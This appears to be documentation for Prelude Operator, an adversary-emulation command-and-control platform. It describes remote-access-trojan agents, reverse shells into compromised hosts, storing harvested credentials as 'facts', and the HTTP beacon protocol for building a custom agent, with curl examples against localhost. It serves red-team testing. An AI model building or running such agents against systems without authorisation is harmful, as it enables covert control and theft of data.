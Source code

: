 
# What is an agent

#### Remote access trojans

---

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor.
Agents beacon into Operator periodically to ask for instructions to run. Each agent is
automatically grouped into a range. Agents communicate to
this application through one of several network protocols, such as TCP, UDP, or HTTP.

### What is ThirdEye

---

ThirdEye is a NodeJS agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches
and beacons into your Home range with the username of the user running the desktop application. It only communicates
locally to Operator and is designed for testing TTPs out before deploying them in the wild. Check out the Home range
in the Operate section to view ThirdEye. ThirdEye does not support reverse shells.

### Download agents

---

All available agents can be found in the Editor section by clicking on the manage payloads icon. Here, you will find agents 
written in various computer languages, intended for various operating systems, and connecting to Operator over 
various network protocols. The most popular open-source agent is called Pneuma, a Golang agent which supports all 
major operating systems and 3 different protocols (TCP, UDP, HTTP). 

### Agent ranges

---

Ranges are logical groupings of agents. For example, a range can be used to cluster agents from various platforms
(darwin, linux, windows) in order to run a cross-platform chain against all the agents. Agents can be
moved between ranges using either command line flags or the Update Agent Configuration modal in the Operate section.

### Reverse shell

---

If you are working with a TCP-based agent you can open a reverse-shell to it by clicking the terminal icon.
This shell will give you a local terminal to the selected agent which allows you to take manual control of the host.

### Locking an agent

---

Lock an agent in order to approve or reject each instruction (TTP) before it is picked up and executed.
Look for the lock icon at the upper right-hand corner of the agent dashboard. When an agent is locked, all instructions
will enter pending state where you can approve or reject them one at a time.

### Agent facts

---

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands.
You can interact with these facts by clicking the document icon. while inside a given agent's dashboard. Additionally,
agents can report new facts over the HTTP listening post. It requires your API key to authenticate with Operator, 
which - if you're adding this command inside a TTP - you can use the automatic #{operator.session} fact to inject your key dynamically (below). 

#### Add facts to an agent

```shell
curl -X POST #{operator.http}/facts -k -H "Authorization: #{operator.session}" -d '{
    "host":"david",
    "facts":[
        {"key": "file.T1005", "value": "/tmp/new/file"},
        {"key": "valuable.password", "value": "abc123", "scope":"range"}
    ]
}'
```
    
### Deleting an agent

---

When you delete a file-based agent, like Pneuma, the connection is stopped and the all agent data is deleted.
However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in
and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command.
You can do this from the Editor section by using the "Stop Agent Process" procedure. Run this, then delete the
agent to completely block it.

### Translators

---

Looking to connect an agent over a non-supported protocol? We have open-sourced the concept of translators, which
are simple Python servers you can deploy anywhere to accept traffic (beacons) over one protocol and
translate/proxy them to Operator over a supported one. You can get to know the existing translators in our
[open-source](https://github.com/preludeorg/community/) space.

### Build your own agent

---

You can write your own agent in any language easily. Follow this simple interface to do so. Hint: if you enable 
plain-text encryption from the main Operate section (via the key icon) you can copy the below commands 
into a terminal to get a real agent online. At a minimum, you will need the following attributes: "name", "target", "location", "platform", "executors", "range", "sleep".

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "ttp":"85341c8c-4ecb-4579-8f53-43e3e91d7617",
            "tactic":"discovery",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6"
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ]
}'
``` 
